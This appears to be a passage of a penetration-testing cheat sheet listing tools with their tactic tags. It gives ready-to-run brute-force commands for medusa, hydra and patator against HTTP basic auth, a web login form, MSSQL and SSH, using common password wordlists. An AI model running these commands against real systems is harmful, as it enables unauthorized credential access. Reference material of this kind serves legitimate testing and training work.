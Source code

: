 # vnc connect
- `vinagre`

---

# medusa
- service: http
- service: basic_auth
- tactics: credential_access

## bruteforce basic_auth
- `medusa -h target-ip -U ../creds/usernames.txt -P ../creds/passwords.txt -M http -m DIR:/printers -T 10`

---

# hydra
- service: http
- service: http_post
- service: sql
- tactics: credential_access

## bruteforce http_post with example post-data
- `hydra -l root@localhost -P /usr/share/wordlists/rockyou.txt target-ip http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-60&User=^USER^&Password=^PASS^:
Login failed!"`

## bruteforce mssql
- `hydra -l sa -P ../creds/pass.txt target-ip -s target-port mssql`

---

# patator
- service: ssh
- tactics: credential_access

## bruteforce ssh
- `patator ssh_login host=target-ip port=22 user=username password=FILE0 0=/opt/SecLists/Passwords/probable-v2-top1575.txt`
- Optional: `-x ignore:fgrep='failed.'`

---

# burp
- service: http
- tactics: enumeration
